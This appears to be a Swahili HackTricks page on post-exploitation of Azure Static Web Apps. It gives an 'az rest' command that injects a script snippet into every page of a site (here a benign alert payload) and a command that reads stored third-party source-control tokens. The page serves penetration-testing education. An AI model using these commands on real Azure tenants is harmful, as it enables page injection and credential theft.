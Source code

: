 # Az - Static Web Apps Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Azure Static Web Apps

Kwa maelezo zaidi kuhusu huduma hii angalia:

{{#ref}}
../az-services/az-static-web-apps.md
{{#endref}}

### Microsoft.Web/staticSites/snippets/write

Inawezekana kufanya ukurasa wa wavuti wa static upakue msimbo wa HTML wa kiholela kwa kuunda snippet. Hii inaweza kumruhusu mshambuliaji kuingiza msimbo wa JS ndani ya programu ya wavuti na kuiba taarifa nyeti kama vile akidi au funguo za mnemonic (katika pochi za web3).

Amri ifuatayo inaunda snippet ambayo itakuwa inapakuliwa kila wakati na programu ya wavuti::
```bash
az rest \
--method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/snippets/<snippet-name>?api-version=2022-03-01" \
--headers "Content-Type=application/json" \
--body '{
"properties": {
"name": "supersnippet",
"location": "Body",
"applicableEnvironmentsMode": "AllEnvironments",
"content": "PHNjcmlwdD4KYWxlcnQoIkF6dXJlIFNuaXBwZXQiKQo8L3NjcmlwdD4K",
"environments": [],
"insertBottom": false
}
}'
```
### Soma Akikodi za Watu wa Tatu Zilizowekwa

Kama ilivyoelezwa katika sehemu ya App Service:

{{#ref}}
../az-privilege-escalation/az-app-services-privesc.md
{{#endref}}

Kukimbia amri ifuatayo inawezekana **kusoma akidi za watu wa tatu** zilizowekwa katika akaunti ya sasa. Kumbuka kwamba ikiwa kwa mfano akidi za Github zimewekwa kwa mtumiaji tofauti, huwezi kupata token kutoka kwa mwingine.
```bash
az rest --method GET \
--url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```
Amri hii inarudisha tokeni za Github, Bitbucket, Dropbox na OneDrive.
